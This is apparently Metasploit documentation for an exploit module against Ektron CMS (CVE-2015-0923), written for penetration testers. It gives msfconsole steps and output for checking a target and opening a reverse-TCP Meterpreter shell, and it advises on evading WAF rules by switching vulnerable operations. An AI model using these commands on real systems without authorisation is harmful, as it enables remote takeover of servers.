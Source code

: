 ## Vulnerable Application

  [Ektron Content Management System (CMS)](http://www.episerver.com/cms/ektron/) 8.0, 8.5, and 8.7 before 8.7sp2 and 9.0 before sp1 (according to CVE-2015-0923)

  Ektron has been acquired by Epi Server and finding installers may prove difficult.

## Verification Steps

   But if you can build a test network the following may be used to verify:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/ektron_xslt_exec_ws```
  4. Do: ```set RHOST [target ip]```
  5. Do: ```check```
  6. You should receive a target vulnerable message.
  7. Do: ```exploit```
  8. You should get a shell.

  In our experience testing against 64 bit hosts should still pass the 'check' in step 6 and return a target vulnerable message. But when injecting shellcode into a new thread it may require the tester to adjust the payload as well. This may be done as follows:

  1. Do ```set PAYLOAD windows/x64/meterpreter```

## Options

  These are important but perhaps less-used options. There are quite a few other 'web' options available which will not be discussed due to their generality.

  **TARGETOP**

  There are multiple operations which are vulnerable to this XSLT bug. We have enumerated more (likely all) of the operations in ServerControlWS.asmx and provide testers with the ability to test the additional operations by setting this option to one of the following: ContentBlockEx, GetContentFlaggingString,GetMessagingString, GetBookmarkString, GetContentRatingString

  This value defaults to ContentBlockEx (from the original reports). Testers may find adjusting this value useful if defenders have included Web Application Firewall (WAF) rules to specifically filter ContentBlockEx as a mitigation in lieu of updating.

  **TARGETURI**

  This allows the tester to adjust the base-installation path. The default value is '/cms400min' but in our experience many deployments are simply the root path '/'.

## Scenarios

  Checking if a target is vulnerable.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable
  msf exploit(ektron_xslt_exec_ws) >
  ```

  Exploiting a Win7 x64 installation to obtain shell.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable.
  msf exploit(ektron_xslt_exec_ws) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
  PAYLOAD => windows/x64/meterpreter/reverse_tcp
  msf exploit(ektron_xslt_exec_ws) > set LHOST 192.168.1.50
  LHOST => 192.168.1.50
  msf exploit(ektron_xslt_exec_ws) > exploit
  [*] Started reverse TCP handler on 192.168.1.50:4444
  [*] Generating the EXE Payload and the XSLT...
  [*] Trying to run the xslt transformation...
  [+] Exploitation was successful
  [*] Sending stage (1189423 bytes) to 192.168.1.175
  [*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.175:49169) at 2016-10-30 04:36:50 +0000

  meterpreter >
  ```
